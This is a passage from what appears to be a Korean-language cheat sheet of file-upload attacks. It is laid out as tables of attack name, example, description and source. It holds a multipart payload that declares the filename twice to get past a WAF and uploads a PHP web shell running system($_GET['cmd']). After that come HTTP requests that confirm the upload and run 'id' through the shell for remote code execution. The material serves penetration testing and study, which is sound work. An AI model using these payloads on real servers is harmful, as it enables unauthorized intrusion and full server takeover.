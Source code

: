       <td>Duplicated Filename Parameter</td>
      <td><pre><code>--xxx
Content-Disposition: form-data; name="file"; filename="safe.txt"; filename="shell.php"
Content-Type: application/octet-stream
&lt;?php system($_GET['cmd']); ?&gt;
--xxx--</code></pre></td>
      <td>Content-Disposition 헤더 내에 filename 파라미터를 중복 선언하여, WAF와 백엔드가 서로 다른 값을 채택하는 해석 차이를 유발, 파일 업로드 제한을 우회한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Validation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Upload Success Validation</td>
      <td><pre><code>GET /uploads/shell.php HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: */*</code></pre></td>
      <td>공격 페이로드로 업로드된 파일 경로에 직접 HTTP GET 요청을 보내, 서버의 응답 코드(200 OK 등)나 실행 결과를 통해 공격 성공 여부를 최종 검증한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exploitation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Malicious File Execution</td>
      <td><pre><code>GET /uploads/shell.php?cmd=id HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: */*</code></pre></td>
      <td>업로드된 웹셸에 시스템 명령어(id, whoami 등)를 파라미터로 전달하여 원격 코드 실행(RCE)을 트리거하고, 서버 제어 권한을 획득한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

